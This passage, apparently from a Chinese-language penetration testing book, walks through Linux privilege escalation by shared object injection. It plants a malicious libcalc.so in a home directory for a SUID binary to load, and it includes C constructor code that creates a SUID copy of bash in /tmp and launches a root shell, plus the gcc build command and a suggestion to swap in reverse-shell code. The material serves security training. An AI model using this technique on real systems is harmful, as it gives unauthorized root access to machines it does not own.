     图 13.17 – 用户的主目录

1.  运行以下命令可以在**用户**帐户的主目录中创建`.config`目录：

    `mkdir /home/user/.config`

    创建完`.config`目录后，需要创建`libcalc.c`文件。可以通过运行以下命令来完成此操作：

    `touch /home/user/.config/libcalc.c`

1.  下一步涉及将我们的自定义 C 代码添加到我们将要编译的`libcalc.c`文件中。使用你选择的终端文本编辑器打开刚刚创建的`libcalc.c`文件。在我的情况下，我将使用 VIM 并添加以下 C 代码：

    #include <stdio.h>

    #include <stdlib.h>

    static void inject() __attribute__((constructor));

    void inject() {

    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");

    }

    这段 C 代码利用了一个名为`inject`的自定义函数，该函数运行一个系统命令，将 Bash 二进制文件复制到 Linux 的`temp`目录。完成这一步后，它会为 Bash 二进制文件赋予 SUID 权限，并从`temp`目录执行它。由于`suid-so`二进制文件以 root 用户身份运行，并调用`libcalc.so`共享库，自定义的`libcalc.so`共享库文件也会以 root 权限执行，从而为我们提供提升的 Bash 会话。

    注意

    你还可以在`libcalc.c`中使用你自己的 C 反向 Shell 代码，它将连接到反向监听器，并为你提供一个提升的反向 Shell。

    一旦你添加了自定义代码，确保按照以下截图所示正确缩进：

    ![图 13.18 – 自定义的 libcalc.c 代码    ](img/B17389_13_018.jpg)

    图 13.18 – 自定义的 libcalc.c 代码

    在按要求缩进并格式化代码后，确保保存代码再继续。现在，我们需要编译`libcalc.c`文件，以便获得`libcalc.so`共享库文件。

1.  我们可以通过运行以下命令用`Gnu C Compiler`（**GCC**）编译自定义的`libcalc.c`文件：

    `gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c`

    这个命令将编译自定义的`libcalc.c`文件，并为我们提供自定义的`libcalc.so`共享库文件，从而为我们提供提升的会话。

    注意

    在用 GNU C 编译器(**gcc**)编译自定义代码时，我们使用了`-fPIC`标志，这可以确保我们的共享库中的代码是位置无关的，并且可以在内存中的任何地址加载。

    编译`libcalc.c`文件后，你现在应该在`user`账户的主目录中拥有自定义的`libcalc.so`文件，如下图所示：
